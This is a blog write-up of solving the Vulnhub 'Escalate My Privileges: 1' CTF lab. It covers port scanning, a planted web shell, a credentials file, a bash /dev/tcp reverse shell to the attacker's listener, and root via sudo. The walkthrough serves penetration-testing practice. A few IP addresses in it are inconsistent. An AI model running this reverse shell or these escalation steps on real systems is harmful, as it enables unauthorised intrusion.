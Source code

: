 ```yaml
---
full_title: "Entry 0x07 - Vulnhub: Escalate My Privileges: 1 Walkthrough"
date: "2020-04-12"
layout: post
coverImage: "screen-shot-2020-04-13-at-12.49.33-am.png"
tags:
- Beginner
- CTF
- Kali
- Linux
- Vulnhub
- Walkthrough
- Writeup
- Security
---
```


**Escalate My Privileges: 1** is a challenge posted on [VulnHub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/) created by [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/). This is a write-up of my experience solving this awesome CTF challenge.

With my Attack Machine (**Kali Linux**) and Victim Machine (**Escalate My Privileges: 1**) set up and running, I decided to get down to solving this challenge.

> Read more about my set up and environment [here](/2019/05/25/entry-0x01-my-first-post.html/)

I decided to start my journey by noting down the IP address of our victim machine. We are lucky that the author decided to display it directly on the login screen of the CentOS server.

![Screen Shot 2020-04-13 at 12.49.33 AM](/assets/images/screen-shot-2020-04-13-at-12.49.33-am.png)

Great! The victim machine has the IP address `192.168.56.120`. Let's continue with some port scanning (as usual 😏).

I decided to use my trusty `nmap` with options enabled to scan _all_ ports and provide details about the service running using the command: `nmap -p- -sV 192.168.56.120`

![Screen Shot 2020-04-13 at 7.11.20 PM](/assets/images/screen-shot-2020-04-13-at-7.11.20-pm.png)

The `nmap` scan revealed a whole bunch of open ports on the victim machine. Now, the first thing that I noticed was port `80` and I decided to navigate to the website (`http://192.168.56.102`) using **Firefox ESR** as follows:

![Screen Shot 2020-04-13 at 7.15.49 PM](/assets/images/screen-shot-2020-04-13-at-7.15.49-pm.png)

Cool! A pretty `index.html` webpage which goes well with the theme of the challenge 😎

Whenever, I am faced with a `HTML` page, I make it a point to view the webpage source code **before** attempting brute-force using tools like `dirb` or `dirbuster`. I decided to hit `<CTRL+U>` to view the webpage source.

![Screen Shot 2020-04-13 at 7.21.20 PM](/assets/images/screen-shot-2020-04-13-at-7.21.20-pm-e1586791364696.png)

Interesting! The `alt` attribute in the `img` tag has a URL - `http://ip/phpbash.php`

I decided to check out `http://192.168.56.120/phpbash.php` by replacing `ip` with the victim machine's IP address.

![Screen Shot 2020-04-13 at 7.51.19 PM](/assets/images/screen-shot-2020-04-13-at-7.51.19-pm.png)

Oh my God - command execution 😳

I decided to play with some basic Linux commands to learn more about my privileges.

![Screen Shot 2020-04-13 at 7.54.41 PM](/assets/images/screen-shot-2020-04-13-at-7.54.41-pm.png)

Looks like I am `apache`.

I decided to check for more users on the victim machine and look for clues. For this purpose, I ran the command: `cd /home` to navigate to the `/home` directory where I can find other users (if any).

![Screen Shot 2020-04-13 at 8.00.37 PM](/assets/images/screen-shot-2020-04-13-at-8.00.37-pm.png)

Bingo! Looks like there is a user called `armour` on the victim machine. I decided to look inside using the command: `ls -lsa armour` to also display hidden files (if any).

![Screen Shot 2020-04-13 at 8.02.28 PM](/assets/images/screen-shot-2020-04-13-at-8.02.28-pm.png)

C'mon it is literally right there - `Credentials.txt`

What does it contain? I decided to find out...

![Screen Shot 2020-04-13 at 8.07.02 PM](/assets/images/screen-shot-2020-04-13-at-8.07.02-pm.png)

The `Credentials.txt` file contains the following text:

```
my password is
md5(rootroot1)
```

Woohoo! A password... but how to use it?

Maybe `SSH`? Our previous `nmap` scan did show that port `22` was open. Also, the website did not have a login portal or something similar. I decided to try the `SSH` approach.

But first - I decided to compute the `MD5` hash of the password string - `rootroot1` using the simple Linux command: `echo -n rootroot1 | md5sum`

![Screen Shot 2020-04-13 at 8.22.25 PM](/assets/images/screen-shot-2020-04-13-at-8.22.25-pm.png)

> The `-n` option for the `echo` command prevents output of the trailing newline

Great! We have our password!

I decided to try logging into the victim machine as `armour` using the command: 
`ssh armour@192.168.56.120`

![Screen Shot 2020-04-13 at 8.29.01 PM](/assets/images/screen-shot-2020-04-13-at-8.29.01-pm.png)

Damn! Not what I had expected!

I decided to go back to the webpage. Maybe I can login to the `armour` account directly using the `su` Linux command as follows: `su - armour`

![Screen Shot 2020-04-13 at 8.47.58 PM](/assets/images/screen-shot-2020-04-13-at-8.47.58-pm.png)

> Read more about `su` vs `sudo` [here](https://www.lifewire.com/switch-user-su-command-3887179)

Hmm, `Authentication failure`.

I decided to explore a different approach - Reverse Shell. Maybe an _interactive_ shell will allow me to input the `MD5` password hash and escalate my privileges from `apache` to beyond 😎

With my handy [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) by **pentestmonkey**, I decided to proceed by launching `nc -lvp 1010` on my attack machine to listen for connections. Then, on the webpage command execution input, I ran the command:

`bash -i >& /dev/tcp/192.168.56.119/1010 0>&1` where `192.168.56.120` is the IP address of attack machine and port `1010` is the randomly selected port on which `nc` is listening on for connections.

![Screen Shot 2020-04-13 at 8.55.43 PM](/assets/images/screen-shot-2020-04-13-at-8.55.43-pm.png)

Lo and behold!

![Screen Shot 2020-04-13 at 9.12.38 PM](/assets/images/screen-shot-2020-04-13-at-9.12.38-pm.png)

Still `apache` btw!

Now, to login as `armour` using the command: `su - armour`

![Screen Shot 2020-04-13 at 10.20.24 PM](/assets/images/screen-shot-2020-04-13-at-10.20.24-pm.png)

Woohoo! I am `armour`

It is important to note that once the password is entered, there is no manual prompt. You just need to type in any command and see 😏

Okay, the next step is to escalate my privileges and capture the flag. But how?

I decided to proceed by checking for `sudo` rights for the user `armour`. To do this, I ran the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.25.44 PM](/assets/images/screen-shot-2020-04-13-at-10.25.44-pm.png)

Bah! Enough is enough! It is time to get a _full_ `tty` shell.

I ran my usual ever-wonderful Python `tty` command: `python -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.28.18 PM](/assets/images/screen-shot-2020-04-13-at-10.28.18-pm.png)

That's when I decided to check the version of Python. After all, Python can't betray me 😳

![Screen Shot 2020-04-13 at 10.29.48 PM](/assets/images/screen-shot-2020-04-13-at-10.29.48-pm.png)

Oh look what we have here!

Python 3.6 - Hurrah!

I decided to try the same Python `tty` command using `python3` this time as follows: `python3 -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.31.22 PM](/assets/images/screen-shot-2020-04-13-at-10.31.22-pm-e1586802718207.png)

Well, there you go! Finally!

Back to checking for a chance to exploit `sudo` rights using the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.33.32 PM](/assets/images/screen-shot-2020-04-13-at-10.33.32-pm.png)

Like a kid in a candy store. Woah!

How about using good ol' `bash`?

![Screen Shot 2020-04-13 at 10.36.18 PM](/assets/images/screen-shot-2020-04-13-at-10.36.18-pm.png)

We did it! We got root! Heck yes!

...Now for the flag 😎

![Screen Shot 2020-04-13 at 10.38.30 PM](/assets/images/screen-shot-2020-04-13-at-10.38.30-pm.png)

Is that `MD5`? 😏

### My Thoughts

That was a great challenge from [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/)! I really enjoyed going back to the basics. **Privilege escalation** is one of those areas where practice is everything and this challenge seems to be straightforward enough for a beginner (with boatloads of trial-and-error of course 😁)

I am writing a Vulnhub walkthrough after almost 7 months and had to do a LOT of Google-fu and re-read my old material to complete this challenge.

I look forward to solving more challenges in the [Escalate My Privileges](https://www.vulnhub.com/series/escalate-my-privileges,291/) series.

If you enjoyed reading this write-up, please check out my other [Vulnhub walkthroughs](/tags#vulnhub).
